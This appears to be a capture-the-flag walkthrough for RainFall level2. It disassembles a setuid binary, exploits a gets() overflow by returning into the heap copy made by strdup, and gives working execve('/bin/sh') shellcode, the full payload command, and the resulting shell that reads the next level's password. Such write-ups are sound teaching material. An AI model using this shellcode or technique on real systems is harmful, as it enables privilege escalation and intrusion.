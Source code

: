 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `p()`.  
- main() :
```
[0x08048420]> s main
[0x0804853f]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level2 @ 0x804853f */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804853f push ebp                  |
    0x08048540 mov ebp, esp              |
    0x08048542 and esp, 0xfffffff0       |
    0x08048545 call 0x80484d4            |     p ();
    0x0804854a leave                     |
    0x0804854b ret                       |
                                         | }
```
- p() :
```
[0x0804853f]> s sym.p
[0x080484d4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level2 @ 0x80484d4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (int32_t arg_4h) {
                                                 |     char * src;
                                                 |     int32_t var_ch;
                                                 |     int32_t var_4h;
    0x080484d4 push ebp                          |
    0x080484d5 mov ebp, esp                      |
    0x080484d7 sub esp, 0x68                     |
    0x080484da mov eax, dword [0x8049860]        |     eax = stdout;
    0x080484df mov dword [esp], eax              |
    0x080484e2 call 0x80483b0                    |     fflush (eax);
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
    0x080484f2 mov eax, dword [ebp + 4]          |     eax = *((ebp + 4));
    0x080484f5 mov dword [ebp - 0xc], eax        |     *((ebp - 0xc)) = eax;
    0x080484f8 mov eax, dword [ebp - 0xc]        |     eax = *((ebp - 0xc));
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |
                                                 |     if (eax == 0xb0000000) {
    0x08048505 jne 0x8048527                     |
    0x08048507 mov eax, 0x8048620                |         eax = "(%p)\n";
    0x0804850c mov edx, dword [ebp - 0xc]        |         edx = *((ebp - 0xc));
    0x0804850f mov dword [esp + 4], edx          |         *((esp + 4)) = edx;
    0x08048513 mov dword [esp], eax              |
    0x08048516 call 0x80483a0                    |         printf (eax);
    0x0804851b mov dword [esp], 1                |
    0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
    0x08048527 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x0804852a mov dword [esp], eax              |
    0x0804852d call 0x80483f0                    |     puts (eax);
    0x08048532 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x08048535 mov dword [esp], eax              |
    0x08048538 call 0x80483e0                    |     strdup (eax);
    0x0804853d leave                             |     
    0x0804853e ret                               |     return eax;
                                                 | }
[0x080484d4]>
```
Let focus on the `p()` function.  
As in level1, we can see call to `gets()` function with a size of 0x4c (76) wich is vulnerable to buffer overflow attack.
```
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
```
But to get the real size of the buffer we have to add 4 more bytes to reach the return adress (push ebp) => buffer = 80.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |     if (eax == 0xb0000000) {
		                    
									more code...

	0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
```
Due to this check we couldn't point the return address to the stack. This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
	0x08048538 call 0x80483e0                    |     strdup (eax);
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)								= 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)	= 0xbffff6fc
puts("")										= 1
strdup("")										= 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
Thanks to internet we'll use some Linux shellcode we found online which will run execve(/bin/sh)  
`\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80`  
Since our shellcode is 26 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will looks like :  
- shellcode 			: 26 bytes
- pad of arbitrary data : 54 bytes
- return adress			: 4 bytes
```
level2@RainFall:~$ python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80' + 'a' * 54 + '\x08\xa0\x04\x08'" >/tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
11Qh//shh/bin1��
               ̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
Level2 passed!
